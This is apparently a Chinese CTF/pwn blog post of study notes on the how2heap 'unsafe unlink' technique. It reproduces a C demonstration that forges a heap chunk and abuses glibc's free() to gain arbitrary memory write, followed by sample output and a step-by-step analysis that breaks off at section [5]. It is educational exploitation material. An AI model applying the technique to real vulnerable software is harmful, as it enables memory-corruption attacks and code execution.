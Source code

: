 ```yaml
---
title: how2heap-04 unsafe unlink实践笔记
time: 2017-08-06
tags: [CTF, pwn, heap]
layout: post
categories: posts
---
```


> 本文是对shellphish的[how2heap](https://github.com/shellphish/how2heap)系列堆漏洞课程的实践笔记

# 示例代码

``` c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <stdint.h>


uint64_t *chunk0_ptr;

int main()
{
	printf("Welcome to unsafe unlink 2.0!\n");
	printf("Tested in Ubuntu 14.04/16.04 64bit.\n");
	printf("This technique can be used when you have a pointer at a known location to a region you can call unlink on.\n");
	printf("The most common scenario is a vulnerable buffer that can be overflown and has a global pointer.\n");

	int malloc_size = 0x80; //we want to be big enough not to use fastbins
	int header_size = 2;
	/* [1] */
	printf("The point of this exercise is to use free to corrupt the global chunk0_ptr to achieve arbitrary memory write.\n\n");

	chunk0_ptr = (uint64_t*) malloc(malloc_size); //chunk0
	uint64_t *chunk1_ptr  = (uint64_t*) malloc(malloc_size); //chunk1
	printf("The global chunk0_ptr is at %p, pointing to %p\n", &chunk0_ptr, chunk0_ptr);
	printf("The victim chunk we are going to corrupt is at %p\n\n", chunk1_ptr);
	/* [2] */
	printf("We create a fake chunk inside chunk0.\n");
	printf("We setup the 'next_free_chunk' (fd) of our fake chunk to point near to &chunk0_ptr so that P->fd->bk = P.\n");
	chunk0_ptr[2] = (uint64_t) &chunk0_ptr-(sizeof(uint64_t)*3);

	printf("We setup the 'previous_free_chunk' (bk) of our fake chunk to point near to &chunk0_ptr so that P->bk->fd = P.\n");
	printf("With this setup we can pass this check: (P->fd->bk != P || P->bk->fd != P) == False\n");
	chunk0_ptr[3] = (uint64_t) &chunk0_ptr-(sizeof(uint64_t)*2);

	printf("Fake chunk fd: %p\n",(void*) chunk0_ptr[2]);
	printf("Fake chunk bk: %p\n\n",(void*) chunk0_ptr[3]);
	/* [3] */

	printf("We need to make sure the 'size' of our fake chunk matches the 'previous_size' of the next chunk (fd->prev_size)\n");
	printf("With this setup we can pass this check: (chunksize(P) != prev_size (next_chunk(P)) == False\n");
	chunk0_ptr[1] = chunk0_ptr[-3];
	printf("Therefore, we set the 'size' of our fake chunk to the value of chunk0_ptr[-3]: 0x%08lx\n", chunk0_ptr[1]);
	printf("You can find the commitdiff of this check at https://sourceware.org/git/?p=glibc.git;a=commitdiff;h=17f487b7afa7cd6c316040f3e6c86dc96b2eec30\n\n");
	/* [4] */

	printf("We assume that we have an overflow in chunk0 so that we can freely change chunk1 metadata.\n");
	uint64_t *chunk1_hdr = chunk1_ptr - header_size;
	printf("We shrink the size of chunk0 (saved as 'previous_size' in chunk1) so that free will think that chunk0 starts where we placed our fake chunk.\n");
	/* [5] */
	printf("It's important that our fake chunk begins exactly where the known pointer points and that we shrink the chunk accordingly\n");
	chunk1_hdr[0] = malloc_size;
	printf("If we had 'normally' freed chunk0, chunk1.previous_size would have been 0x90, however this is its new value: %p\n",(void*)chunk1_hdr[0]);
	/* [6] */
	printf("We mark our fake chunk as free by setting 'previous_in_use' of chunk1 as False.\n\n");
	chunk1_hdr[1] &= ~1;

	/* [7] */
	printf("Now we free chunk1 so that consolidate backward will unlink our fake chunk, overwriting chunk0_ptr.\n");
	printf("You can find the source of the unlink macro at https://sourceware.org/git/?p=glibc.git;a=blob;f=malloc/malloc.c;h=ef04360b918bceca424482c6db03cc5ec90c3e00;hb=07c18a008c2ed8f5660adba2b778671db159a141#l1344\n\n");
	free(chunk1_ptr);

	/* [8] */
	printf("At this point we can use chunk0_ptr to overwrite itself to point to an arbitrary location.\n");
	char victim_string[8];
	strcpy(victim_string,"Hello!~");
	chunk0_ptr[3] = (uint64_t) victim_string;
	/* [9] */
	printf("chunk0_ptr is now pointing where we want, we use it to overwrite our victim string.\n");
	printf("Original value: %s\n",victim_string);
	chunk0_ptr[0] = 0x4141414142424242LL;
	printf("New Value: %s\n",victim_string);
	/* [11] */
}
```

本节示例的漏洞程序可以从此处下载： [unsafe_unlink](/files/how2heap/unsafe_unlink)

# 样例输出

```
Welcome to unsafe unlink 2.0!
Tested in Ubuntu 14.04/16.04 64bit.
This technique can be used when you have a pointer at a known location to a region you can call unlink on.
The most common scenario is a vulnerable buffer that can be overflown and has a global pointer.
The point of this exercise is to use free to corrupt the global chunk0_ptr to achieve arbitrary memory write.

The global chunk0_ptr is at 0x602068, pointing to 0x603010
The victim chunk we are going to corrupt is at 0x6030a0

We create a fake chunk inside chunk0.
We setup the 'next_free_chunk' (fd) of our fake chunk to point near to &chunk0_ptr so that P->fd->bk = P.
We setup the 'previous_free_chunk' (bk) of our fake chunk to point near to &chunk0_ptr so that P->bk->fd = P.
With this setup we can pass this check: (P->fd->bk != P || P->bk->fd != P) == False
Fake chunk fd: 0x602050
Fake chunk bk: 0x602058

We need to make sure the 'size' of our fake chunk matches the 'previous_size' of the next chunk (fd->prev_size)
With this setup we can pass this check: (chunksize(P) != prev_size (next_chunk(P)) == False
Therefore, we set the 'size' of our fake chunk to the value of chunk0_ptr[-3]: 0x00000000
You can find the commitdiff of this check athttps://sourceware.org/git/?p=glibc.git;a=commitdiff;h=17f487b7afa7cd6c316040f3e6c86dc96b2eec30

We assume that we have an overflow in chunk0 so that we can freely change chunk1 metadata.
We shrink the size of chunk0 (saved as 'previous_size' in chunk1) so that free will think that chunk0 starts where we placed our fake chunk.
It's important that our fake chunk begins exactly where the known pointer points and that we shrink the chunk accordingly
If we had 'normally' freed chunk0, chunk1.previous_size would have been 0x90, however this is its new value: 0x80
We mark our fake chunk as free by setting 'previous_in_use' of chunk1 as False.

Now we free chunk1 so that consolidate backward will unlink our fake chunk, overwriting chunk0_ptr.
You can find the source of the unlink macro at[](https://sourceware.org/git/?p=glibc.git;a=blob;f=malloc/malloc.c;h=ef04360b918bceca424482c6db03cc5ec90c3e00;hb=07c18a008c2ed8f5660adba2b778671db159a141#l1344)

At this point we can use chunk0_ptr to overwrite itself to point to an arbitrary location.
chunk0_ptr is now pointing where we want, we use it to overwrite our victim string.
Original value: Hello!~
New Value: BBBBAAAA
```

本节示例的漏洞程序可以从此处下载: [unsafe_unlink](/files/how2heap/unsafe_unlink)


# 漏洞分析

这节我们学习`unsafe unlink`，即不安全的unlink解链操作。当我们得到了一个可以进行unlink操作的地址指针的话，就可以使用这项技术。最常见的利用情景就是我们有一个可以溢出的漏洞函数同时拥有一个全局指针时。

而本次示例的重点在于如何使用`free()`破坏全局指针来实现任意地址读写

## [1] 定义malloc_size和header_size

程序定义了malloc_size为0x80，尽量地大以避免使用`fastbins`，而后定义了header_size为2

## [2] malloc申请两块空间

malloc申请了两块空间，分别给`chunk0_ptr`和`chunk1_ptr`，我们可以看到，`chunk0_ptr`这个指针所在的地址(指针存储在栈上)为`0x602068`，指向`0x603010`(指向分配的堆地址)，而`chunk1_ptr`指向`0x6030a0`(堆地址)，是我们要破坏的堆块。

这里我们可以这样认为，`*chunk_ptr`为变量`chunk_ptr`的值，而`chunk_ptr`则代表该指针指向的堆地址，而`&chunk_ptr`为指针`chunk_ptr`存储在栈上的地址。

``` c
The global chunk0_ptr is at 0x602068, pointing to 0x603010
The victim chunk we are going to corrupt is at 0x6030a0
```

## [3] 构造fake chunk

如果明白了`*chunk0_ptr`，`chunk0_ptr`和`&chunk0_ptr`之间的关系的话，这里我们也可以很清楚的看明白是个什么操作

[3]主要是在栈上构造一个`fake chunk`，暂且称为`P`吧，并且将这个`fake chunk`的`fd`和`bk`缠绕在一起，意思就是`P->fd->bk = P`以及`P->bk->fd = P`。这里单纯只是`在栈上`构造了一个`fd`和`bk`都指向自身的`fake chunk`，而这个`fake chunk`的地址就是`&chunk0_ptr`，也就是指针`chunk0_ptr`存储在栈上的地址

``` c
//The global chunk0_ptr is at 0x602068
Fake chunk fd: 0x602050
Fake chunk bk: 0x602058
```

这样我们就通过了检查`(P->fd->bk != P || P->bk->fd != P) == False\n")`

## [4] 构造fake chunk的size与next chunk的prev_size相等

为了通过检查`(chunksize(P) != prev_size (next_chunk(P)) == False`，我们需要将我们伪造的chunk `P`的下一个chunk的`prev_size`位设置为`chunk P`的`size，这样就能通过检查

``` c
chunk0_ptr[1] = chunk0_ptr[-3];
Therefore, we set the 'size' of our fake chunk to the value of chunk0_ptr[-3]: 0x00000000
```

这样我们`fake chunk`的`size`就等于`next chunk`的`prev_size`，虽然是`0x00000000`，但是没关系，我们只需要满足两者相等就可以了。

## [5]


![unsafe_unlink](/images/how2heap/unsafe_unlink.png)
